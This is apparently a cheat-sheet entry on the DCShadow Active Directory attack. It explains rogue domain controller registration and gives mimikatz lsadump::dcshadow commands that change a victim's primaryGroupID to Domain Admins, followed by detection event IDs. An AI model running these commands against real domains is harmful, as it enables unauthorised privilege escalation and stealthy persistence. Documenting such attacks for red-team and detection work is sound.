

# DCShadow

### Affected object / attribute
**Rogue DC registration** in the **Configuration partition**; pushes changes to **any AD object** via replication.

### Concept (deep)
Register a **rogue DC** via DRSUAPI, push arbitrary changes (e.g. **SID History**, `primaryGroupID`, ACLs), then unregister. Requires **DA + DC code execution**. Changes arrive as legitimate replication.

### Attack flow (Mermaid)


### Exhaustive commands
```plaintext
mimikatz # lsadump::dcshadow /object:CN=Victim,CN=Users,DC=corp,DC=local \
  /attribute:primaryGroupID /value:512
mimikatz # lsadump::dcshadow /push
```

### Detection
**4742/5136** changes with a replication source not in the DC list; **4928/4929** replication partner anomalies; **DRSUAPI from a non-DC**.

---
